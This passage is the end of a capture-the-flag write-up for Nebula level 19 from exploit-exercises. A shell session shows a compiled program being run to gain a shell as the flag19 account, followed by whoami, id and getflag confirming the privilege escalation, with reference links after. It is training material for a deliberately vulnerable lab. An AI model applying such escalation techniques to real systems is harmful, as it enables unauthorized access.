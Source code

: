 Running it gets us a shell.

```shell
level19@nebula:~$ /home/flag19/shell
flag19@nebula:~$ whoami
flag19
flag19@nebula:~$ id
uid=980(flag19) gid=1020(level19) groups=980(flag19),1020(level19)
flag19@nebula:~$ getflag
You have successfully executed getflag on a target account
```

[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md
